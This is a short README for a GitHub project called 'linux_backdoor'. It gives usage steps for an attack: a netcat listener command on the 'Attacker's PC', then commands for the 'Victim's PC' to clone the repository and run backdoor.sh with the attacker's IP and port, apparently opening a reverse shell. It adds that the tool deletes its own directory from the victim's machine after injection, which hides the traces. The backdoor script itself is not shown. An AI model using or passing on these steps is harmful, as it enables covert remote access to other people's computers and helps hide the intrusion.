 # linux_backdoor

Usage : 

  ~ Attacker's PC ~
   
   nc -lvnp 443
   
  ~ Victim's PC ~

  git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  cd linux_backdoor
  
  chmod +x *
  
  bash backdoor.sh <Attacker IP> <Port>
  
Images :

![github](https://user-images.githubusercontent.com/115974774/201770400-185f3e45-665a-45e7-95a3-1ed8ebc3614f.png)

Note : 

Once the backdoor is injected, it will automatically delete the linux_backdoor directory from the victim's PC.
  



